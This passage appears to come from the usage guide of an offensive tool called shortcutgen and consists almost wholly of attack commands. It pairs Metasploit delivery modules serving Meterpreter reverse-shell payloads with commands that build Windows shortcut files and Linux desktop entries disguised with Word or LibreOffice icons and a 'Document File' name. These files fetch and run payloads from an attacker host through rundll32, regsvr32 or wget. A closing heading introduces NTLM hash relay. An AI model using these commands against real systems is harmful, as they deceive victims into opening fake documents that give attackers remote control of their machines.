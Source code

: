 Generate the shell link then automatically hosting a staging DLL payload (`.dll`) using `metasploit-framework` exploit module `exploit/windows/smb/smb_delivery`.

```
$ sudo msfconsole -qx "use exploit/windows/smb/smb_delivery; set payload windows/x64/meterpreter/reverse_tcp; set lhost <IP>; set lport 8443; set srvhost <server_IP>; set file_name payload.dll; set share staging; exploit"

$ shortcutgen -p lnk -c "C:\Windows\System32\rundll32.exe" -a "\\<attacker_IP>\staging\payload.dll,0" --icon "C:\Program Files\Microsoft Office\root\Office16\winword.exe,0" -w "minimized" --workingdirectory "C:\\Users\\Public\\" -o payload.lnk
```

Generate the shell link then automatically hosting a staging scriptlet payload (`.sct`) using `metasploit-framework` exploit module `exploit/multi/script/web_delivery`.

```
$ sudo msfconsole -qx "use exploit/multi/script/web_delivery; set target 3; set payload windows/x64/meterpreter/reverse_tcp; set lhost <IP>; set lport 8443; set srvhost <server_IP>; set srvport <server_PORT>; set uripath payload; exploit"

$ shortcutgen -p lnk -c "C:\Windows\System32\regsvr32.exe" -a "/s /n /u /i://http://<attacker_IP>:<attacker_PORT>/payload.sct scrobj.dll" --icon "C:\Program Files\Microsoft Office\root\Office16\winword.exe,0" -w "minimized" --workingdirectory "C:\\Users\\Public\\" -o payload.lnk
```

#### Linux

Generate the desktop entry then automatically hosting a python payload (`.py`) using `metasploit-framework` exploit module `exploit/multi/script/web_delivery`.

```
$ sudo msfconsole -qx "use exploit/multi/script/web_delivery; set target 0; set payload python/meterpreter/reverse_tcp; set lhost <IP>; set lport 8443; set srvhost <server_IP>; set srvport <server_PORT>; set uripath payload; exploit"

$ shortcutgen -p desktop -n "Document File" -c "python" -a "\"<payload>\"" --icon "libreoffice-writer" --workingdirectory "/tmp/" -w "false" -o payload.desktop
```

Generate the desktop entry then automatically hosting an ELF payload using `metasploit-framework` exploit module `exploit/multi/script/web_delivery`.

```
$ sudo msfconsole -qx "use exploit/multi/script/web_delivery; set target 7; set payload linux/x64/meterpreter/reverse_tcp; set lhost <IP>; set lport 8443; set srvhost <server_IP>; set srvport <server_PORT>; set uripath payload; exploit"

$ shortcutgen -p desktop -n "Document File" -c "wget" -a "wget -qO payload --no-check-certificate http://192.168.1.4/payload; chmod +x payload; ./payload& disown" --icon "libreoffice-writer" --workingdirectory "/tmp/" -w "false" -o payload.desktop
```

### 0x01 - Relay NTLM Hash

Specify the attacker's IP address.
